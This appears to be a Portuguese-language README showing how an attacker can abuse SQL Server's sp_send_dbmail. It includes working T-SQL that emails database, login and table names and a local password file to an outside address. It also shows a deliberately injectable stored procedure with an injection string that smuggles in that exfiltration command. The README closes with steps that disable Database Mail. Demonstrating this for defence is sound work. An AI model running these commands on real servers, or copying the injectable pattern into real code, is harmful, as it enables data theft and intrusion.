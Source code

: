 ## Descrição do Script

Este script simula ações maliciosas que um invasor pode realizar em um servidor SQL Server, como o envio de informações sensíveis via e-mail e a execução de SQL Injection para exfiltrar dados.

### 1. **Envio de Informações Sigilosas via E-mail**
   - A primeira parte do script utiliza a stored procedure `msdb.dbo.sp_send_dbmail` para enviar e-mails contendo informações sigilosas extraídas do banco de dados. A consulta retorna nomes de bancos de dados, usuários do servidor e tabelas presentes no sistema.

### 2. **Envio de Arquivos Locais do Servidor**
   - A segunda execução do `sp_send_dbmail` envia um e-mail com um arquivo em anexo. Neste caso, o arquivo `C:\Senha muito importante.txt` é anexado ao e-mail.

### 3. **SQL Injection para Envio de Informações Sigilosas**
   - Uma stored procedure chamada `dbo.stpConsulta_Tabela` é criada ou alterada para realizar uma consulta no banco de dados com base no parâmetro fornecido. Se um SQL Injection for realizado no parâmetro `@Nome`, o comando malicioso será executado, e a informação sensível será enviada para o e-mail do invasor.

### 4. **Desabilitação de Envio de E-mail no Servidor**
   - Para evitar que futuras execuções de SQL Injection ou outros comandos maliciosos consigam enviar e-mails, o script desabilita a configuração de `Database Mail` e `SQL Mail` no servidor, utilizando a procedure `sp_configure`. Essa ação impede a execução de funções relacionadas ao envio de e-mails no SQL Server.

```SQL
-- Envia informações sigilosas para o invasor
EXEC msdb.dbo.sp_send_dbmail
    @recipients = 'teste@gmail.com', -- varchar(max)
    @subject = N'Teste', -- nvarchar(255)
    @query = N'SELECT name FROM sys.databases; select name from sys.server_principals;select name from sys.tables;',
	@query_result_header = 1,
	@query_result_width = 255,
	@query_result_separator = '|',
	@attach_query_result_as_file = 0
```   

```SQL
-- Envia arquivos locais do servidor
EXEC msdb.dbo.sp_send_dbmail
    @recipients = 'teste@gmail.com', -- varchar(max)
    @subject = N'Teste anexo', -- nvarchar(255)
	@body = 'Teste',
	@body_format = 'HTML',
    @file_attachments = 'C:\Senha muito importante.txt'
```

```SQL
-- Utiliza um SQL Injection para enviar informações sigilosas
CREATE OR ALTER PROCEDURE dbo.stpConsulta_Tabela (
	@Nome VARCHAR(MAX)
)
AS
BEGIN

	DECLARE @Comando VARCHAR(MAX) = 'SELECT * FROM sys.tables WHERE [name] = ''' + @Nome + ''''
	EXEC(@Comando)

END

EXEC dbo.stpConsulta_Tabela 'Teste'

EXEC dbo.stpConsulta_Tabela 'Teste'' OR 1=1;EXEC msdb.dbo.sp_send_dbmail
    @recipients = ''teste@gmail.com'',
    @subject = N''Teste'',
    @query = N''SELECT name FROM sys.databases; select name from sys.server_principals;select name from sys.tables;'',
	@query_result_header = 1,
	@query_result_width = 255,
	@query_result_separator = ''|'',
	@attach_query_result_as_file = 0 --'
```













-- Desabilita o envio de e-mail no servidor
sp_configure 'show advanced options', 1;
GO

RECONFIGURE
GO

sp_configure 'Database Mail XPs', 0;
GO

sp_configure 'SQL Mail XPs', 0;
GO

RECONFIGURE
GO